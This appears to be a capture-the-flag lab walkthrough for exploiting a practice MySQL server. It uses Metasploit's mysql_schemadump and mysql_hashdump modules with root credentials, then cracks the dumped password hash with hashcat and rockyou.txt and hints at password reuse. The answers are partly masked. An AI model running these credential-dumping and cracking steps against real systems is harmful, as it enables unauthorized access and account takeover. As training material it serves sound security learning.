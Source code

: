 - Check how many databases are returned.

#### Exploiting MySQL

First, let's search for and select the `mysql_schemadump` module. What's the module's full name?

- `search mysql_schemadump`

Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?

- `search mysql_schemadump`
- `use {MODULE_NUMBER}`
- `show options` and set all the options we need to set. `set PASSWORD password`, then `set RHOSTS {ROOM_IP}`, then `set USERNAME root`.
- Run `exploit`.
- `x$waits_global_**_*******` - name of the last table that got dumped.

Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the `mysql_hashdump` module. What's the module's full name?

- `search mysql_hashdump`

Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?

- `search mysql_hashdump`
- `use {MODULE_NUMBER}`
- `show options` and set all the options we need to set. `set PASSWORD password`, then `set RHOSTS {ROOM_IP}`, then `set USERNAME root`.
- Run `exploit`.

- Check the last username and hash string. You will find the user account you need.
- `*a**`

Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: `bob:\*HASH` to a text file on your local machine called `hash.txt`.

What is the user/hash combination string?

- `*a***:\*EA03189xxxxxxxxx`

Now, we need to crack the password! Let's try **John the Ripper** against it using: `john hash.txt`. What is the password of the user we found?

- You can either use `john` or `hashcat` or [CrackStation](https://crackstation.net/)
- I tried [CrackStation](https://crackstation.net/) first to save time and got the password instantly. But for the sake of cracking, I've mentioned `hashcat` steps below.
- Copy the hash (just the hash i.e. `EA03189xxxxxxxxx`) in a text file. Let's call it `hash.txt`.
- Then run `hashid -m hash.txt` to identify the hash format with `-m` to get hashcat mode. It returns hashcat mode `100` for `SHA-1`. Now we can run `hashcat` to crack it.
- `hashcat -m 100 -w 3 hash.txt /usr/share/wordlists/rockyou.txt`
- `-w 3` flag for faster workload/cracking but will slow down your machine. You can skip it.
- password: `****ie`

Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service?
